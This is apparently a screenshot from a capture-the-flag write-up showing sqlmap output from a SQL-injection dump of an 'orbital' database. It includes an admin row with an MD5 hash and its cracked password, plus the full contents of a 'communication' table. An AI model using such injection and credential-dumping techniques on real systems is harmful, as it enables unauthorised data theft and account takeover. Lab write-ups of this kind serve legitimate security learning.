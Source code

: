 ```
+----+-------------------------------------------------+----------+
| 1  | 1692b753c031f2905b89e7258dbc49bb (ichliebedich) | admin    |
+----+-------------------------------------------------+----------+

[19:28:55] [INFO] table 'orbital.users' dumped to CSV file '/home/kali/.local/share/sqlmap/output/68.183.45.143/dump/orbital/users.csv'
[19:28:55] [INFO] fetching columns for table 'communication' in database 'orbital'
[19:28:55] [INFO] retrieved: 'id'
[19:28:55] [INFO] retrieved: 'int(11)'
[19:28:55] [INFO] retrieved: 'source'
[19:28:56] [INFO] retrieved: 'varchar(255)'
[19:28:56] [INFO] retrieved: 'destination'
[19:28:56] [INFO] retrieved: 'varchar(255)'
[19:28:56] [INFO] retrieved: 'name'
[19:28:56] [INFO] retrieved: 'varchar(255)'
[19:28:56] [INFO] retrieved: 'downloadable'
[19:28:57] [INFO] retrieved: 'varchar(255)'
[19:28:57] [INFO] fetching entries for table 'communication' in database 'orbital'
[19:28:57] [INFO] retrieved: 'Arcturus'
[19:28:57] [INFO] retrieved: 'communication.mp3'
[19:28:57] [INFO] retrieved: '1'
[19:28:57] [INFO] retrieved: 'Ice World Calling Red Giant'
[19:28:57] [INFO] retrieved: 'Titan'
[19:28:58] [INFO] retrieved: 'Vega'
[19:28:58] [INFO] retrieved: 'communication.mp3'
[19:28:58] [INFO] retrieved: '2'
[19:28:58] [INFO] retrieved: 'Spiral Arm Salutations'
[19:28:58] [INFO] retrieved: 'Andromeda'
[19:28:58] [INFO] retrieved: 'Trappist-1'
[19:28:58] [INFO] retrieved: 'communication.mp3'
[19:28:59] [INFO] retrieved: '3'
[19:28:59] [INFO] retrieved: 'Lone Star Linkup'
[19:28:59] [INFO] retrieved: 'Proxima Centauri'
[19:28:59] [INFO] retrieved: 'Kepler-438b'
[19:28:59] [INFO] retrieved: 'communication.mp3'
[19:29:00] [INFO] retrieved: '4'
[19:29:00] [INFO] retrieved: 'Small World Symposium'
[19:29:00] [INFO] retrieved: 'TRAPPIST-1h'
[19:29:00] [INFO] retrieved: 'Boop'
[19:29:00] [INFO] retrieved: 'communication.mp3'
[19:29:00] [INFO] retrieved: '5'
[19:29:00] [INFO] retrieved: 'Jelly World Japes'
[19:29:01] [INFO] retrieved: 'Winky'
Database: orbital
Table: communication
[5 entries]
+----+-----------------------------+------------------+-------------+-------------------+
| id | name                        | source           | destination | downloadable      |
+----+-----------------------------+------------------+-------------+-------------------+
| 1  | Ice World Calling Red Giant | Titan            | Arcturus    | communication.mp3 |
| 2  | Spiral Arm Salutations      | Andromeda        | Vega        | communication.mp3 |
| 3  | Lone Star Linkup            | Proxima Centauri | Trappist-1  | communication.mp3 |
| 4  | Small World Symposium       | TRAPPIST-1h      | Kepler-438b | communication.mp3 |
| 5  | Jelly World Japes           | Winky            | Boop        | communication.mp3 |
+----+-----------------------------+------------------+-------------+-------------------+

[19:29:01] [INFO] table 'orbital.communication' dumped to CSV file '/home/kali/.local/share/sqlmap/output/68.183.45.143/dump/orbital/communication.csv'
[19:29:01] [WARNING] HTTP error codes detected during run:
403 (Forbidden) - 913 times, 500 (Internal Server Error) - 546 times
[19:29:01] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/68.183.45.143'

```